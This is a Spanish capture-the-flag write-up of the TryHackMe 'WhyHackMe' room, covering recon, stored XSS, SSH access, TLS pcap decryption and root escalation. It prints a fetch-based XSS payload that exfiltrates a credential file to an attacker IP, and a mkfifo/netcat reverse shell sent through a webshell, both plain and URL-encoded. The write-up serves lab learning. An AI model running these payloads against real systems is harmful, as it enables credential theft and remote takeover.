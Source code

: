 # WhyHackMe

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.90.191

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador del sistema Linux.
- **Herramientas iniciales:** `nmap`, `gobuster`, `python3`, `wget`, `netcat`, `ssh`, `crontab`,`linpeas.sh`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap -sC -sV -p- 10.10.90.191
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Lo siguiente es acceder a ftp de forma anónima, ya que lo tenemos ejecutándose en el puerto 21 y éste acepta el usuario anonymous.

Dentro encontramos un fichero con una pista que usaremos el el sitio web.

![Análisis del servicio FTP entrando de forma anónima](screenshots/2.ftp_note.png)

Si añadimos el host al fichero /etc/hosts y entramos al sitio web, podemos ver que es un "blog" moy básico.

Indica que leas su primer artículo y luego puedes poner un comentario iniciando sesión pero no nos han dado ningunas credenciales por el momento, así que realizaremos un descubrimiento de directorios y ficheros con `gobuster`.

![Visión general del sitio web](screenshots/3.website.png)

```bash
gobuster dir -u http://whyhackme.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,html,php
```

![Ejecución de gobuster para la búsqueda de ficheros y directorios](screenshots/4.gobuster.png)

Ahora que sabemos qué rutas contiene el sitio web, vamos a ir a la página de registro y vamos a crearnos una cuenta de prueba.

![Registro del sitio web](screenshots/5.registration.png)

En el cuadro donde se pueden escribir los comentarios, intentamos inyectar código para un ataque XSS pero no conseguimos nada porque la página traduce los símbolos.

![Intento de XSS en comentarios del sitio web](screenshots/6.comments.png)

En el resto del blog tan solo apreciamos dos campos, por lo que si en el comentario no podemos inyectar código, probams a escribir exactamente lo mismo pero en el nombre de la cuenta al crearla.

![Intento de XSS en nombre de usuario al crear la cuenta](screenshots/7.tryng_new_account.png)

Escribimos un artículo y quedaría publicado con el script en el nombre, de esta manera hemos conseguido que el código se ejecute cada vez que alguien entra a ver los comentarios.

Ya solo queda buscar un script que obtenga el fichero que nos ha indicado antes la pista encontrada en FTP, convertirla a texto y luego enviarla por POST a un servidor Netcat que pongamos a la escucha.

```bash
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://10.8.29.132:1234", {method: "POST", body:y}));</script>
```

![Inyección de código en nombre de cuenta de usuario](screenshots/8.payload.png)

Al entrar con una cuenta para ver los comentarios, el script se ejecuta y en el servidor recibimos el contenido del fichero.

Este contiene unas credenciales que podemos usar para acceder por SSH.

![Servidor Netcat con contenido sobre el fichero de credenciales](screenshots/9.netcat.png)

Obtenemos acceso al sistema con el usuario jack y en su mismo directorio personal nos encontramos la primera bandera.

![Accediendo por ssh con usuario jack y obteniendo la primera bandera](screenshots/10.ssh_user.txt.png)

Es hora de escalar privilegios, y como siempre hago antes de utilizar herramientas como linpeas es realizar un par de comandos básicos como `sudo -l` o algún find para buscar ficheros con permisos SUID.

Esta vez con el primero bastó, y nos encontramos con que el usuario jack puede ejecutar con permisos de sudo el fichero `iptables`.

```bash
sudo -l
```

![Ejecución del comando sudo -l para buscar permisos](screenshots/11.sudo-l.png)

Como no puede ser de otra manera, probamos a realizar el comando iptables y nos encontramos con que un puerto está denegando la conexión TCP por algún motivo.

```bash
sudo iptables -L
```

![Comando iptables -L para ver la tabla de rutas](screenshots/14.iptables.png)

Por el momento dejamos un poco de lado lo anterior y seguimos buscando. No pasa mucho hasta que accedemos al directorio /opt y hayamos un fichero .pcap y un fichero con pistas que seguramente utilizaremos pronto.

![Contenido del directorio /opt con un fichero de pista y otro PCAP](screenshots/13.opt.png)

Tenemos un problema, y es que cuando descargamos el fichero PCAP en la máquina local y  lo tratamos de abrir con Wireshark, este no es legible.

Esto es debido a que está encriptado con un certificado SSL, y necesitamos ese certificado para poder ver su contenido.

Buscando información, me topé con una web que indicaba que la ubicación del certificado SSL podría estar en el archivo de configuración de Apache.

Descargar fichero PCAP en la máquina local:
```bash
scp jack@whyhackme.thm:/opt/capture.pcap .
```

Abrir fichero de configuración de apache:
```bash
cat /etc/apache2/sites-available/000-default.conf
```
![Fichero de configuración de apache para encontrar la ](screenshots/15.etc-apache2-sites-available-000-default.conf.png)

El fichero nos indica que el certificado está en `/etc/apache2/certs/apache.key`, de manera que lo descargaremos por scp y lo importaremos a Wireshark.

`Edit > Preferences > Protocols > TLS > RSA key list > Edit`

![Importación de certificado SSL a Wireshark](screenshots/16.key_wireshark.png)

Ahora desde Wireshark podemos tratar de filtrar por el puerto que la máquina denegaba y por TCP.

`tcp.port == 41312 && http`

El resultado es un conjunto de peticiones, entre las que se repite una GET a lo que se intuye que es una Webshell. Habiendo importado el certificado en Wireshark, podremos utilizar nuestro navegador para acceder.

Tan solo tenemos que modificar Iptables para que acepte las peticiones TCP.

![Wireshark mostrando las peticiones GET a una webshell en la máquina víctima](screenshots/17.backdoor_shell.png)

```bash
sudo iptables -D INPUT -p tcp --dport 41312 -j DROP

sudo iptables -A INPUT -p tcp --dport 41312 -j ACCEPT
```

![Resultado de iptables tras la modificación para aceptar tráfico por el puerto indicado](screenshots/18.iptables2.png)

Ya sí que podemos probar el acceso a la Webshell ya que el servidor nos permite el tráfico TCP al puerto donde se conecta. 

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id`
```

Si copiamos el código de los atacantes, están pasándole `id` como parámetro a la Webshell.

![Acceso a la Webshell encontrada a través del navegador](screenshots/19.webshell.png)

Ahora vamos a buscar una reverse shell que nos lance una conexión a nuestro Netcat. Ya que las básicas no funcionan, tratamos de complicarlo un poco más:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.29.132 8888 >/tmp/f
```

Aún así, nada. Otra opción es utilizar la página URLencoder (https://www.urlencoder.org) para tratar de ofuscar un poco los símbolos y órdenes.

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20ATTACKING_IP%209001%20%3E%2Ftmp%2Ff
```

![Página URLencoder ofuscando el código de la reverse-shell](screenshots/20.urlencode.png)

Ponemos a escuchar nuestro Netcat en el mismo puerto y listo. Obtenemos una Shell del usuario www-data. La sorpresa es cuando al ejecutar `sudo -l` la respuesta es la siguiente: (ALL : ALL) NOPASSWD: ALL.

![Conexión de Netcat con usuario www-data por funcionamiento de reverse-shell](screenshots/21.netcat.png)

Teniendo en cuenta sus permisos, con un simple `sudo su` accedemos a la cuenta de administrador y con ella a la segunda bandera.

![Escala de privilegios sencilla y obtención de la segunda bandera](screenshots/22.root.txt.png)












































